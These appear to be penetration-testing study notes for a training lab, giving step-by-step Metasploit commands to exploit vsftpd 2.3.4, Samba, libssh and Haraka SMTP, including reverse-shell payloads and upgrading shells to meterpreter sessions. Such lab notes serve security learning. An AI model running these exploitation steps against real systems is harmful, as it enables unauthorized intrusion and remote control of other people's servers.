 
### Exploiting a vulnerable FTP server 

- port 21 - facilitate file sharing between server and clients 
- transfer files to and from the directory of a web server 
- vsftpd is an FTP server for Unix-like systems including Linux systems and the default FTP server for ubuntu, CentOS and Fedora 
- **vsftpd** V2.3.4 is vulnerable to a command execution vulnerability that is facilitated by a malicious backdoor that was added to the vsftpd download archive through supply chain attack.

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) perform service detection, operating detection and syn scan: `db_nmap -sS -sV -O ip `
6) `search vsftpd `
7) `use exploit/unix/ftp/vsftpd_234_backdoor `
	(try: )1) `set payload cmd/unix/interact` 
8) open bash terminal on target system: ` /bin/bash -i ` which will open a shell on target to upgrade the shell go to the next step 
9) upgrade session to meterpreter session (put other session in background)
	1) `search shell_to_meterpreter` (will upgrade current shell session to meterpreter session)
	2) `use post/multi/manage/shell_to_meterprete`r (this is a post module so you can only use it when you have an active session on the target system) -> specify options (`set` `session` to `1` (this is the session that we want to upgrade))
	3) `sessions` 
![[Pasted image 20230827153708.png]] 
When userid is 0 then you are root user 


### Exploiting Samba 

- Samba is linux implementation of SMB and allows windows systems to access linux shares and devices 
- uses 445 (TCP) or NetBIOS 139 
- Samba V3.5.0 is vulnerable to a remote code execution vulnerability, allowing a malicious client to upload a shared library to a writeable share, and then cause the server to load and execute it. 
	- Shared library is linux equivalent of a DLL file (libraries called upon by services)

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) `db_nmap -sS -sV -O ip`
6) `search type:exploit name:samba`
7) `use exploit/linux/samba/is_known_pipename`
8) run the check command to check if target is vulnerable: `check`
9) `run` 
10) `pwd` (print current working directory) -> put this session in the background so we can work on upgrading to a meterpreter session because it will give us more access
11) `use post/multi/manage/shell_to_meterpreter `
	1) set lhost to kali linux instance 
	2) leave default port 
	3) set the session you want to upgrade (command shell session --> meterpreter session)
	4) when `uid` is zero you have highest privileges' 


### Exploiting Vulnerable SSH server 

- SSH (secure Shell) remote administration protocol that offers encryption 
- used for remote access to servers and systems 
- SSH uses port 22 (or other ports)
- libssh is multiplatform C library implementing the SSHv2 protocol on client and server side 
- libssh V0.6.0-0.8.0 is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server 


1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) `db_nmap -sS -sV -O ip`
6) check if system is vulnerable: `search libssh_auth_bypass `
7) `use aux/scanner/shh/libssh_auth_bypass `
	1) `set Spawn_PTY true`  
8) ` session 1` ---> `whoami`
9) `whoami` 
10) `cat /etc/\*\release`
11) get kernel version `uname -r`
12) upgrade shell session into meterpreter session - put current session in background: 
	1) `use post/multi/manage/shell_to_meterpreter `
	1) set lhost to kali linux instance 
	2) leave default port 
	3) set the session you want to upgrade (command shell session --> meterpreter session)
	4) when `uid` is zero you have highest privileges' 







### Exploiting Vulnerable SMTP server 

- Simple Mail Transfer protocol is communication protocol that is used for transmission of email 
- uses port 25 by default or 465 and 587 
- Haraka is an opensource high performance SMTP server developed in Node.js 
- The Haraka SMTP server comes with a plugin for processing attachments. Haraka version prior to V2.8.9 are vulnerable to command injection 

1) `service` `PostgreSQL` `start` 
2) `msfconsole` 
3) create new `workspace` 
4) set global variable for `rhosts` (setg)
5) `db_nmap -sS -sV -O ip`
6) `use  exploit/linux/smtp/haraka `
	1) `set srvport 9898` 
	2) `set email_to root@attackdefense.test `
	3) `set payload linux.x64/meterpreter_reverse_http ` (stageless payload)
	4) `options` 
	5) `set lhost eth1 `
	6) `run` 
